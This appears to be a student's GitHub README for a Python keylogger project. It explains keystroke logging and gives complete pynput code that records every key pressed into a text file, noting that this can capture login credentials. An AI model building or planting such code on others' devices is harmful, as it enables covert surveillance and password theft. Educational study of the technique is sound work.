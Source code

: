 # Keylogger Project
Keylogger Project using Python

A Keylogger is used within cybersecurity as a way to keep track and record the keystrokes as a user types. This is beneficial especially for companies as companies can easily track down and monitor any malicious or deviant acts within their system; a keylogger can also be set up so it is silently active in which the user does not know their keystrokes are being tracked.
<br>
<br>
![Screenshot 2024-01-27 183935](https://github.com/mholtz15/Keylogger-Project/assets/157908872/4a059bd9-0b22-4ae7-acc3-34c9515cda2c)
<br>
<br>
Using the term "with open("keyfile.txt",'a') as logKey" allows an external text file to be made which will keep a live record of the keystrokes in which a user enters. This is really helpful in tackling a users actions if there were some sort of bad act in a business for example; a business can directly see the input of the user and work on a patch to make sure that their system cannot be compromised again.
<br>
<br>
![Screenshot 2024-01-27 184859](https://github.com/mholtz15/Keylogger-Project/assets/157908872/03b62f4d-95ea-4571-9f3a-341af0e197c0)
<br>
<br>
As shown above, this is the text file in which is created as soon as the Keylogger is active. The file contains the exact keystrokes. However, this can be used maliciously; since a Keylogger can be inputted onto a device undetectably (if a user does not have the latest of software protection updates) malicious actors can expose this application. For example, if a user logs into one of their accounts, the Keylogger will mirror their username and password into a textfile in which can be abused by a malicious actor to get a users personal information.
<br>
<br>
<ins>How to create a Keylogger</ins> <br>
1. Open a text file using pynput (for my project I used Visual Studio Code) otherwise the code will not run as intended <br>
2. Copy the code below: <br>
```python
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt",'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Erro getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input() 
```
<br>
4. Run the code and make sure a text file is created when a user inputs their keystrokes. <br>
<br>
NOTE: If the code does not run, please double check that all commas, speech marks, colons etc are in the correct place and there is no more than needed to be as small errors such as this can equal into the code failing.
